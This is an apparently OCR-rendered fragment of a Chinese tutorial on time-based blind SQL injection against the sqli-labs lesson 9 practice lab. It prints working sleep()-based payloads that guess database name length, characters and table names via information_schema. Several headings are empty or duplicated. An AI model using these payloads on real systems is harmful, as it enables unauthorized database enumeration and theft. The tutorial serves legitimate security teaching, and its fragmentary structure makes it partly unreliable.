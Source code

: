 
### 3.2、第二步：判断可使用注入方法

---


### 3.4、第四步：猜数据库名称（ASCII码）

---


---


---


## 四、逻辑判断

> 
<h3>4.1、猜长度（eg：数据库）</h3>
?id=1' and sleep(if(length(database())=8,10,0)) --+
（页面窗口转了10s，说明长度为8）
<hr/>
<h3>4.2、猜字符（eg：数据库名第一位）</h3>
?id=1' and sleep(if(mid(database(),1,1)='s',10,0)) --+
（转了10秒说明是s）
<hr/>
<h3>4.3、猜字符：（eg：第一个表名第一位）</h3>
?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101,sleep(5),0) --+
（转了5秒说明是e）


### 4.2、猜字符（eg：数据库名第一位）

---


---


---


## 五、示例（sqli-labs9）

> 
<h3>5.1、第一步：注入点测试</h3>
 加上单引号、双引号闭合、数值型注入，都发现回显正常
无法判断是否存在注入点

 只能考虑使用延时函数了
 ?id=1' and sleep(5) --+
标签上面在转，说明函数执行了
即存在注入点
